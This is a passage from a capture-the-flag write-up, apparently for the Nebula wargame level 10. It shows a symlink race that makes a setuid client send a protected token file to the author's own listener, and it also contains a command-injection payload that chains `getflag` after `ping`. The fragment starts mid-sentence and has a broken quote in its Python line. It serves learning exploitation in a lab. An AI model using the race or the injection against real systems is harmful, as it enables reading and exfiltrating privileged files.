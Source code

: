 ```@output = `ping -c 3 x || getflag 2>&1```. Because `ping -c 3 x`
some files & see what happened.

~~~
cat << EOF > level10_test
Hello
:D
EOF
$ /home/flag10/flag10 ./level10_test 127.0.0.1
Connecting to 127.0.0.1:18211 .. Connected!
Sending file .. wrote file!
$ # Over at the other tty, we can see that the
$ # server received the files contents.

# on a different tty, starting & printing according to it's source above.
$ python socketListener.py
ACCP 2015-05-13 12:38:40.091829
RECV 2015-05-13 12:38:40.094904
<type 'str'>
('buffer:', '.oO Oo.\nHello\n:D\n')
~~~

Initially I thought it was possible for me to slow down the python
server so much that I could (in-between the steps that the program
takes) change the file I was giving the program into something else.
I tried running the process in the background, immediately launching my
plan like so:

~~~
$ /home/flag10/flag10 ./level10_test 127.0.0.1 & rm ./level10_test && \
  ln -s /home/flag10/token ./level10_test
~~~

And thus change the file (`level10_test`) into a link which points to the file
we want to access. This didn't work, we need more time.

A plan I came up with was to simply import pythons time
module & sleep in between accepting & receiving from the connection.

But when I added calls to `time.sleep()` in between accepting &
receiving the connection there were little difference. Sure the
timestamps were changing according to how much the server slept; but
I was still given the same error as before, Permission denied. I think
this is because the client does not wait to send just because we wait
to receive. Maybe there's a way of defining some sort of delay within
the socket-module, I don't know.

I also tried slowing down execution by running the client through gdb,
but I was unsuccessful in my attempts as far as I can remember at least.

I found the solution by modifying the server, if we add the following code
to `socketListener.py`, we can make the server do the magic we want.

{% highlight python %}
# ...
print("ACCP", datetime.datetime.now())

# after accepting a connection, remove the level10_test
# and link /home/flag10/token to /tmp/level10_test
fh = "/tmp/level10_test"
os.system("rm {} && ln -s /home/flag10/token {}'.format(fh,fh))

try:
# ...
{% endhighlight %}
```
